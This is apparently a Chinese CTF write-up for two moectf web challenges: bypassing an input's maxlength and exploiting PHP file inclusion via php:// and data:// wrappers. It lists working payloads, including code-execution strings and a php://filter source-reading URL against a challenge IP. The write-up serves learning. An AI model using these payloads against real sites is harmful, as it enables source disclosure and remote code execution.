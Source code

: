粘贴/输入的时候发现最后的 **t** 怎么也输入进不去，F12打开开发者工具，发现输入框部分的html如下：

```html
<input class="form-control" type="text" name="key" maxlength="14" placeholder="只需要输入m0ectF_1s_Gre@t即可获取flag">
```

把 maxlength干掉，就可以解除限制。补上t , 提交！

```html
Oops!
Congratulations!You get the flag:moectf{We1C0me_t0_XDseC}
```

### Protocol

> http://39.108.11.206:10003/?file=
>
> Hint: 
>
> php伪协议，文件包含
> https://www.php.net/manual/zh/wrappers.php

打开靶机，如下内容：

```html
the flag was put in the index.php, can you get it?
```

尝试了几次失败的payload:

```
file=index.php
file=ftp://39.108.11.206:10003/index.php
file=php://filter/read=index.php
file=php://filter/read=string.strip_tags/resource=index.php
file=php://filter/resource=index.php
file=php://filter/read=string.toupper/resource=index.php #多了内容，没什么用
file=php://input <?php highlight_file(‘index.php’)?>
```

尝试了半天，还是百度吧

> https://www.cnblogs.com/Oran9e/p/7795057.html
>
> PHP 读文件和代码执行的方式：
>
> ```html
> ?file=data:text/plain,<?php phpinfo()?>
> ?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=
> ?file=php://input [POST DATA:]<?php phpinfo()?>
> ?file=php://filter/read=convert.base64-encode/resource=xxx.php
> ```

最终的 payload:

```
http://39.108.11.206:10003/?file=php://filter/read=convert.base64-encode/resource=index.php
```
